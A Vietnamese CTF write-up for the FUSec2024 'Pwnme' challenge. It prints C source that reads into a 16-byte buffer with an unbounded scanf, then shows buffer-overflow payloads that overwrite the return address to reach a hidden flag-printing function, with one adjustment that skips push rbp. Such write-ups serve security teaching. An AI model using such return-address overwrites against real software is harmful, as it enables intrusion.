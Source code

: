 # Pwnme

![image](https://github.com/anhshidou/FUSec2024/assets/81132394/282477ad-19de-42ee-88db-810c0d42169c)

----
Đầu tiên khi đọc bài, ta biết luôn phải sử dụng buffer overflow. Mình sẽ tải thử cả 2 file được cung cấp về

**Source Code**
```
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>

void hacked()
{
    FILE *file = fopen("flag.txt", "r");
    if (file == NULL)
    {
        printf("Could not open file flag.txt\n");
        return;
    }

    char buffer[256]; // Buffer to hold the file contents

    printf("Flag content:\n");
    while (fgets(buffer, sizeof(buffer), file) != NULL)
    {
        printf("%s", buffer);
    }

    fclose(file);
    printf("\nThis function is TOP SECRET! How did you get in  :O\n");
}

void register_name()
{
    char buffer[16];
    

    printf("Name:\n");
    fflush(stdout);
    scanf("%s", buffer);
    printf("Hi there, %s\n", buffer);   
}

int main()
{
    
    register_name();

    return 0;
}
```

Với source code này, mình nhận ra chúng ta phải sử dụng buffer overflow để gọi function `hacked`. Bây giờ mình sử dụng ida kiểm tra xem địa chỉ lưu trữ function `hacked` ở đâu

![image](https://github.com/anhshidou/FUSec2024/assets/81132394/c716d748-1b42-4650-86b4-f6bcd856e6a4)

Nó ở địa chỉ 400707. Mình sẽ sử dụng lệnh `file` để kiểm tra xem nó là **MSB** hay **LSB**

![image](https://github.com/anhshidou/FUSec2024/assets/81132394/e9ce7445-8c1e-4a11-9008-fb6d5f96ccf9)

Vậy ta sẽ có payload như sau

`100000000000000000000000\x07\x07\x40`

![image](https://github.com/anhshidou/FUSec2024/assets/81132394/3d895a19-f5d8-409d-91b4-e99523547b42)

Thử nhập nó lên server

![image](https://github.com/anhshidou/FUSec2024/assets/81132394/3be66ff6-b049-4f72-881b-a2a89a769c78)

Có vẻ như nó lỗi

Mình quay lại ida để xem thì phát hiện ra ở địa chỉ đó, lệnh của nó là `push rbp`, mà tại đây base pointer của ta đang chưa có nên nó xảy ra lỗi. Mình thử đổi lại payload sao cho nó chỉ về `mov rbp, rsp`

`100000000000000000000000\x08\x07\x40`

![image](https://github.com/anhshidou/FUSec2024/assets/81132394/0ff3d3d5-e174-4c32-a53c-14aebba71262)

Cúng tìm hiểu thêm được lỗi `Segmentation fault (core dumped)` tức là chạy nhầm trên vùng nhớ nào đó, hoặc tràn bộ đệm \(Source: [https://daynhauhoc.com/](https://daynhauhoc.com/t/loi-segmentation-fault-core-dumped-la-loi-gi/11210)\)

Chạy thử payload này lên server

![image](https://github.com/anhshidou/FUSec2024/assets/81132394/cd115bd7-4940-48d6-b751-3155d0c5fa83)

Flag: `FUSec{On35H00tOnEkil1}`

----
> Credit [wdchocopie](https://github.com/wdchocopie)

**--- End ---**

